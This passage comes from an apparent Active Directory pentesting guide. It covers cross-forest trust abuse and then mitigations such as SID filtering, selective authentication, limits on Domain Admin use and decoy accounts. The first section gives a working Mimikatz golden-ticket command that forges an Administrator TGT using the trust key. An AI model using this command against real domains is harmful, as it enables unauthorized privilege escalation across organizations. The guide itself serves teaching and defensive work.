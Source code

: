 ### External Forest Domain Privilege escalation

In this case you can **sign with** the **trusted** key a **TGT impersonating** the **Administrator** user of the current domain. In this case you **won't always get Domain Admins privileges in the external domain**, but **only** the privileges the Administrator user of your current domain **was given** in the external domain.

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<current domain> /SID:<current domain SID> /rc4:<trusted key> /target:<external.domain> /ticket:C:\path\save\ticket.kirbi"'
```

### Domain trust abuse mitigation

**SID Filtering:**

* Avoid attacks which abuse SID history attribute across forest trust.
* Enabled by default on all inter-forest trusts. Intra-forest trusts are assumed secured by default \(MS considers forest and not the domain to be a security boundary\).
* But, since SID filtering has potential to break applications and user access, it is often disabled.
* Selective Authentication
  * In an inter-forest trust, if Selective Authentication is configured, users between the trusts will not be automatically authenticated. Individual access to domains and servers in the trusting domain/forest should be given.

\*\*\*\*[**More information about domain trusts in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)\*\*\*\*

## Some General Defenses

\*\*\*\*[**Learn more about how to protect credentials here.**](../stealing-credentials/credentials-protections.md)  
**Please, find some migrations against each technique in the description of the technique.**

* Not allow Domain Admins to login on any other hosts apart from Domain Controllers
* Never run a service with DA privileges
* If you need domain admin privileges, limit the time: `Add-ADGroupMember -Identity ‘Domain Admins’ -Members newDA -MemberTimeToLive (New-TimeSpan -Minutes 20)`

### Deception

* Password does not expire
* Trusted for Delegation
* Users with SPN
* Password in description
* Users who are members of high privilege groups
* Users with ACL rights over other users, groups or containers
* Computer objects
* ...
* [https://github.com/samratashok/Deploy-Deception](https://github.com/samratashok/Deploy-Deception)
  * `Create-DecoyUser -UserFirstName user -UserLastName manager-uncommon -Password Pass@123 | DeployUserDeception -UserFlag PasswordNeverExpires -GUID d07da11f-8a3d-42b6-b0aa-76c962be719a -Verbose`
